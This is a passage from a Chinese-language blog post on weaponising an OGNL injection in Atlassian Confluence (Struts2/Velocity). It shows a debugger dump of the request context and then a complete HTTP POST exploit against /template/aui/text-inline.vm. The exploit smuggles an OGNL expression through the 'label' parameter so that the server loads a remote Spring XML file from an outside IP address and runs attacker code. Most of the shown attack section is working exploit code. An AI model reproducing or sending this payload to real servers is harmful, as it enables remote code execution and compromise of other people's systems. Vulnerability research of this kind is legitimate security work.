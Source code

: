 ```plain
  "org.apache.tomcat.request.forwarded" -> {Boolean@66513} true
  "com.atlassian.prettyurls.filter.PrettyUrlsSiteMeshFilter" -> {Boolean@66513} true
  "org.apache.catalina.AccessLog.ServerPort" -> {Integer@66549} 8090
  "os_securityfilter_already_filtered" -> {Boolean@66513} true
  "com.atlassian.core.filters.HeaderSanitisingFilter_already_filtered" -> {Boolean@66513} true
  "com.atlassian.prettyurls.filter.PrettyUrlsSiteMeshFixupFilter" -> {Boolean@66513} true
  "loginfilter.already.filtered" -> {Boolean@66513} true
  "com.atlassian.confluence.impl.profiling.DecoratorTimings" -> {DecoratorTimings@66555} 
  "org.apache.catalina.AccessLog.RemoteAddr" -> "127.0.0.1"
"session" -> {SessionMap@66443}  size = 1
"com.opensymphony.xwork2.dispatcher.PageContext" -> {PageContextImpl@66445} 
"com.opensymphony.xwork2.util.ValueStack.ValueStack" -> {OgnlValueStack@60828} 
"com.opensymphony.xwork2.ActionContext.container" -> {ContainerImpl@66448} 
"com.opensymphony.xwork2.dispatcher.HttpServletRequest" -> {StrutsRequestWrapper@60863} 
"com.opensymphony.xwork2.dispatcher.HttpServletResponse" -> {OAuthFilter$OAuthWWWAuthenticateAddingResponse@66451} 
"last.property.accessed" -> null
"com.opensymphony.xwork2.ActionContext.parameters" -> {HttpParameters@66454}  size = 2
"com.opensymphony.xwork2.dispatcher.ServletContext" -> {StandardContext$NoPluggabilityServletContext@66456} 
"last.bean.accessed" -> null
"com.opensymphony.xwork2.ActionContext.application" -> {ApplicationMap@66459}  size = 21
"com.opensymphony.xwork2.ActionContext.session" -> {SessionMap@66443}  size = 1
"application" -> {ApplicationMap@66459}  size = 21
"attr" -> {AttributeMap@66463} Unable to evaluate the expression Method threw 'java.lang.UnsupportedOperationException' exception.
"current.property.path" -> null
"parameters" -> {HttpParameters@66454}  size = 2
```

其中`.KEY_velocity.struts2.context` 对应获取 context 上下文，那么这些其他的属性呢？我们也是可以获取的，是否有其他利用点呢？我相信答案肯定是有的，这里笔者就不偏离主题了，只阐述一下一种可能的思路。今天的重点是武器化

# 0-2 武器化实现

## 0-2.1 出网

### 0-2.1.1 ClassPathXmlApplicationContext

出网的话解决方法也好说，Poc 如下

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 193

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=#a=new org.springframework.context.support.ClassPathXmlApplicationContext('http://8.130.24.188:8888/1.xml')
```
